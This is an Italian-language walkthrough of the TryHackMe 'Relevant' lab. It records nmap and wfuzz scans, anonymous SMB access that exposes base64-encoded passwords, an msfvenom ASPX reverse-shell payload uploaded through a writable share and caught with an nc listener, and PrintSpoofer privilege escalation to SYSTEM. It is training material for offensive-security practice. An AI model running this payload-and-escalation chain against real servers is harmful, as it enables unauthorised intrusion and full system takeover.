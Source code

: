 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/relevant

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.37.51 -oG risultatoscan
```

```
sudo nmap -sC -sV -p80,135,139,445,3389,49663,49667,49669 10.10.37.51 -oN risultatoscan2
```


==enumerare con wfuzz==

```
wfuzz -c -L -t 400 --sc=200,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.37.51/FUZZ
```

==Controllare servizio Samba presente porta 139,445==

```
smbclient -L 10.10.37.51
```
	(enter su richiesta pw che non abbiamo)
troviamo vari sharename troviamo solo la connessione accettata a IPC$ e nt4wrksv
```
smbclient //10.10.37.51/IPC$
```
facciamo dir ma niente ora proviamo
```
smbclient //10.10.127.9/nt4wrksv
```
dir e troviamo file password

```
get passwords.txt
```

troviamo
```
cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk      
```
andiamo su 
```
https://gchq.github.io/CyberChef/
```
mettiamo in input
```
Qm9iIC0gIVBAJCRXMHJEITEyMw==
```
==Mettiamo== il metodo ==Magic== in ==Recipe==
otteniamo in ==Output
```
Bob - !P@$$W0rD!123
```
per
```
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
otteniamo
```
Bill - Juw4nnaM4n420696969!$$$
```

proviamo a connetterci sulla porta 3389 rdp ma prima vediamose lo abbiamo installato

```
dpkg -l | grep rdp
```

```
xfreerdp /u:RELEVANT\Bill /p:'Juw4nnaM4n420696969!$$$' /v:10.10.127.9:3389
```

```
xfreerdp /u:RELEVANT\Bob /p:'!P@$$W0rD!123' /v:10.10.127.9:3389
```
ci da errore  certificato, proviamo un altra strada

vediamo se la risorsa trovata prima con samba è condivisa sui due siti http porta 80 e 49663
==dal browser==
```
http://10.10.127.9:49663/nt4wrksv/
```
F12>Network e vediamo che ci da il GET con stato 200 quindi è condivisa
possiamo UPLODARE un file!

```
nano test1.txt  
```
```
Ciao,ciao
```

```
smbclient //10.10.127.9/nt4wrksv
```
uplodiamo
```
 put test1.txt
```

```
http://10.10.127.9:49663/nt4wrksv/test1.txt
```
e vediamo la  scritta Ciao,ciao
ora troviamo reverse shell per server IIS

```
https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
```

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

```
cd Downloads
```

```
nano shell.aspx
```
```
msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=10.21.9.220 LPORT=443 -e x64/shikata_ga_nai -o shell.aspx
```

```
sudo msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=10.21.9.220 LPORT=443 -e x64/shikata_ga_nai -o shell.aspx
```

```
smbclient //10.10.170.18/nt4wrksv
```

```
put shell.aspx
```
usciamo
```
sudo nc -lvnp 443
```

```
curl http://10.10.170.18:49663/nt4wrksv/shell.aspx
```
==Ottenuta la reverse shell!==

==Scalata dei privilegi  in Windows==
```
whoami /priv
```
SeImpersonatePrivilege è Abilitato
troviamo info su
```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
```
scarichiamo il PrintSpoofer compilato da
```
https://github.com/dievus/printspoofer
```

```
smbclient //10.10.170.18/nt4wrksv
```

```
put PrintSpoofer.exe
```
==cerchiamo dove si trova dalla reverse shell==
```
cd /
```

```
dir PrintSpoofer.exe /s /p
```

```
c:\inetpub\wwwroot\nt4wrksv
```

```
cd c:\inetpub\wwwroot\nt4wrksv
```

```
PrintSpoofer.exe -i -c cmd
```

==whoami==
==nt authority\system(siamo amministratori)==

```
cd \Users\Bob\Desktop
```

```
type user.txt
```
```
THM{xxxxxxxxxxxxx}
```

```
cd Users\Administrator\Desktop
```

```
type root.txt
```

```
THM{xxxxxxxxxxxxx}
```